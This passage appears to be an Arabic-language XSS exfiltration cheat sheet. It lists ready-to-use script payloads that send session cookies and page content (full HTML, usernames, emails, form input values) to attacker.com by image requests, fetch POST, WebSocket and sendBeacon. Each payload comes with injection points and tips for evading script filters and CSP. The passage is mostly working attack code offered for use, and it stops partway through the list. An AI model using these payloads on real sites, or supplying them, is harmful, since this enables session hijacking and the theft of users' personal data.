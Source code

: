 
## جميع المحاولات الممكنة للحقن المستخدمة لاستخراج البيانات
في الحقن المستخدمة لاستخراج البيانات، المحاولات تركز على جمع البيانات الحساسة وإرسالها إلى خادم خارجي. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة لـ XSS.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول النماذج، معلمات URL، أو نقاط إدخال أخرى. الهدف هو استخراج البيانات وإرسالها إلى خادم المهاجم.

#### أ. استخراج ملفات تعريف الارتباط
استخدام `document.cookie` لسرقة بيانات الجلسة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(document.cookie)</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(document.cookie)</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم كمعلمة URL.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة إذا لم يكن `HttpOnly` مفعلاً.
- **الحقن**: `<img src="http://attacker.com/log?c=document.cookie">`
  - **الإدخال**: `https://example.com/?search=<img src="http://attacker.com/log?c=document.cookie">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر طلب صورة.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر `<script>`.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>`
  - **الإدخال**: أدخل في نموذج: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر طلب POST.
  - **متى يُستخدم؟**: لإرسال بيانات أكبر أو لتجاوز قيود GET.
- **الحقن**: `<script>new WebSocket('ws://attacker.com').send(document.cookie)</script>`
  - **الإدخال**: `https://example.com/#<script>new WebSocket('ws://attacker.com').send(document.cookie)</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر WebSocket.
  - **متى يُستخدم؟**: لتجاوز قيود HTTP أو CSP.
- **الحقن**: `<script>navigator.sendBeacon('http://attacker.com/log', document.cookie)</script>`
  - **الإدخال**: أدخل في حقل: `<script>navigator.sendBeacon('http://attacker.com/log', document.cookie)</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط بشكل غير متزامن.
  - **متى يُستخدم؟**: لإرسال بيانات بشكل موثوق حتى عند إغلاق الصفحة.

#### ب. استخراج محتوى DOM
استخدام DOM لجمع محتوى الصفحة أو عناصر محددة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.body.innerHTML)</script>`
  - **الإدخال**: `https://example.com/?search=<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.body.innerHTML)</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة بالكامل إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى الصفحة (مثل النصوص أو HTML).
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.getElementById('username').innerText})</script>`
  - **الإدخال**: أدخل في تعليق: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.getElementById('username').innerText})</script>`
  - **كيف يعمل**: يرسل نص عنصر معين (مثل اسم المستخدم).
  - **متى يُستخدم؟**: لاستهداف بيانات مستخدم محددة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.querySelector('.email').innerText)</script>`
  - **الإدخال**: `https://example.com/#<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.querySelector('.email').innerText)</script>`
  - **كيف يعمل**: يرسل نص عنصر محدد باستخدام CSS selector.
  - **متى يُستخدم؟**: لاستخراج بيانات من عناصر بفئات معينة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>`